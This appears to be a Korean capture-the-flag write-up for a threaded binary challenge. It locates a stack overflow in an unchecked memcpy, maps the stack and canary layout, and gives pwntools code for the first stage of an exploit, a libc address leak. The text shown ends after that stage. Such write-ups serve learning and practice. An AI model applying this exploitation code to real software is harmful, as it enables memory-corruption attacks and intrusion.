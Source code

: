 `CHUNKS n` → 스레드 개수 설정

`CHUNK id timeout data` → 스레드 생성 및 데이터 출력

- 파라미터 의미
    - `id`: sleep 시간
    - `timeout`: 출력 횟수
    - `data`: 출력할 메시지

`CHONK` → 이스터 에그 메세지 출력 ?

![image.png](<img width="485" height="72" alt="Image" src="https://github.com/user-attachments/assets/197267d8-509a-4b60-b8cf-9259dc032f82" />)

## 취약점 분석

### 취약점 위치 : `print()` 함수의 `memcpy()`

```c
_QWORD dest[10];  // 64바이트 버퍼
memcpy(dest, message_ptr, message_len);  // 길이 검증 없음
```

### 스택 레이아웃

```
[rbp + 0x8]   <- Return Address
[   rbp   ]   <- Stack Frame Pointer
[rbp - 0x8]   <- Stack Canary
	  ...
[rbp - 0x20]  <- dest [64byte]
```

### 오버플로우 조건

- `message_len > 64` → canary 덮어씀
- `message_len > 72` → Return Address 덮어씀

## 3단계 공격

### [1] Stage 1 : `libc Address Leak`

```python
# [1] libc leak
p.sendline(b'CHUNKS 3')
payload = b"CHUNK 0 1 " + b'a'*0x3f # overflow offset of libc 
p.sendline(payload)
p.recvuntil(b'aaaaa\n')
leak = u64(p.recv(6)+b'\x00\x00')
libc_base = leak + 0x940 + 0x3000
# libc_base = leak + 0x940 # local용
print(f"libcbase: {hex(libc_base)}")
```
